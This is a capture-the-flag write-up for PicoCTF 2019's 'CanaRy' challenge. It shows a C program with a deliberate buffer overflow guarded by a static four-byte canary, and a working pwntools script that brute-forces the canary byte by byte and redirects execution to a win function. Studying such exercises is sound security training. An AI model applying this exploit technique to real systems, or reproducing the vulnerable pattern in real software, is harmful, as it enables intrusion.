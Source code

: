 ```yaml
---
title: Bypassing a Static Canary
description: Exploiting a buffer overflow attack by bypassing a static canary.
---
```


# Buffer Overflow - Bypassing a Static Canary

## Summary

Exploiting a buffer overflow attack with a static canary.

## Challenge

### Statement

!!! note ""
    Challenge : `CanaRy` from PicoCTF 2019.

This time we added a canary to detect buffer overflows. Can you still find a way to retrieve the flag from this program.

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

## Answer

In the source code below, the canary is load from a text file and is only four bytes, `#define CANARY_SIZE 4`.

So, we can bruteforce it. The good way to do it, it's by bruteforcing the canary one byte at a time.

!!! example
    padding + 'a' : Stack Smashing Detected -> The canary is NOT starting by the letter 'a'.<br>
    padding + 'b' : Stack Smashing Detected -> The canary is NOT starting by the letter 'b'.<br>
    ...<br>
    padding + 'o' : Ok... Now Where'''s the Flag? -> The canary is starting by the letter 'o'.<br>
    Then, you go on with : 'oa', 'ob', 'oc', ... until you get the four bytes.

Once you retrieve the whole canary, you now can jump to the *win* function.

Let's make a python script with *pwntools* to flag this challenge :

```python linenums="1"
#!/usr/bin/env python3
from string import printable
from pwn import process, p32, context, ELF

context.log_level = "error"

elf = ELF('./vuln')
win_func_addr = p32(elf.symbols['win'])
padding = 32 * "A"


def retrieve_canary():
    canary = ""

    for i in range(4):
        for c in printable.replace("\n", ""):
            p = process("./vuln")
            p.sendlineafter("Buffer?\n> ", str(len(padding + canary + c)))
            p.sendlineafter("Input> ", padding + canary + c)

            data = p.recvline()
            if not "Stack Smashing Detected" in data.decode("utf-8"):
                canary += c
                break

    return canary


if __name__ == "__main__":
    canary = retrieve_canary()
    payload = (padding + canary + "A" * 16).encode() + win_func_addr

    p = process("./vuln")
    p.sendlineafter("Buffer?\n> ", str(len(payload)))
    p.sendlineafter("Input> ", payload)
    p.interactive()
```
